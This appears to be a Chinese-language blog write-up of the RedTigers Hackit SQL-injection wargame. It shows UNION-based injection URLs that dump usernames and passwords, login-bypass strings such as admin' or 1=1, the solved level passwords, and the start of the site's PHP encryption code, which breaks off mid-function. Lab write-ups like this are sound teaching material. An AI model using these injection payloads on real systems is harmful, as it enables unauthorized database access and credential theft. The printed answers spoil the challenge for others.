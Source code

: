 title: RedTigers Hackit writeup
author: Qianye
abbrlink: '90656973'
tags:
  - ctf
categories:
  - ctf
date: 2018-02-22 15:33:00
---
[RedTigers Hackit](http://redtiger.labs.overthewire.org/)一个不错的sql注入外国平台，也灵活，可以学到很多。

# level 1 

常规的注入

爆字段
``` bash
http://redtiger.labs.overthewire.org/level1.php?cat=1 order by 4 #

```
看显示位
``` bash
http://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,3,4 #

```
表名已经提示，根据登录表单，猜测字段username,password

``` bash
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,username,password from level1_users #
```
得到用户名和密码，登入后得到flag和下一关的密码 4_is_not_random
# level 2 

万能密码登入
admin' or 1=1%23
admin' or '1'='1
admin' or '1'='1'%23

得下一关密码 feed_your_cat_before_your_cat_feeds_you

# level 3 

通过user[] 变为数组报错，

```
http://redtiger.labs.overthewire.org/level3.php?usr[]=MDQyMjExMDE0MTgyMTQw
```
访问http://redtiger.labs.overthewire.org/urlcrypt.inc 的到加密机密的代码

```bash
<?php

	// warning! ugly code ahead :)
  		
	function encrypt($str)
	{
		$cryptedstr = "";
		srand(3284724);
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
			
			while(strlen($temp)<3)
			{
```